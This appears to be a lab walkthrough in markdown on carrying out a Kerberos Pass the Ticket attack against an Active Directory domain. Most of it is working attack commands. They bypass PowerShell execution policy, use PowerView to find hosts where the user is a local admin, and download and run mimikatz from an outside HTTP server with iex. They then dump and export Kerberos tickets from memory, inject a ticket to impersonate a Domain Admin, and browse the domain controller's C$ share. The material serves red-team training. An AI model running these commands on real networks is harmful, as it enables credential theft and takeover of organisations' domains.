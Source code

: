 
### Pass the Ticket Attack:
It is an attack where the stolen Kerberos ticket is being used to authenticate to resources as a user without the actual plain text password. 

- Both the TGS and TGT can be stolen and reused. Without the administrative privileges, an adversary can obtain the TGT (using fake delegation) and TGS tickets for the current user. 
- With administrative privileges, an adversary can dump the lsass process and obtain all TGTs and TGS tickets cached on the system. 


### Task

Execute a Pass The Ticket attack. 

1. Conduct Recon
2. Attack Implementation
3. Export Kerberos Ticket
4. Check Domain Controller Access

##### Loading Powerview

Run Powershell as an administrator. 
```powershell
powershell -ep bypass
```

```powershell
. .\PowerView.ps1
```


```powershell
Find-LocalAdminAccess
```

It will give the machines where current user has local admin access.

```
EnterPSSession domain.local
```


Run HFS server with the mimikatz file. 

On the PS remoting session:
```powershell
iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10/mimikatz.ps1')
```

```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

All the tickets are being exported. 

We will use the maintainer@krbtgt:


```powershell
Invoke-mimikatz -Command '"kerberos::ptt FILENAME "'
```


```
klist
```


If we can run this and can list the files, it means we accessed the DC. 
```powershell
ls \\prod.researchsecurity.local\c$
```

Remember that `prod.researchsecurity.local` is DC. 
### Conclusion:

First, we checked in which machine the current user has admin access. We ps remoted into that system. We got the mimikatz in the Ps remoting session via HFS server. Invoked the Mimikatz and exported the TGS ticket. Used one of the ticket and pass it through mimikatz to impersonate the Domain Admin. 


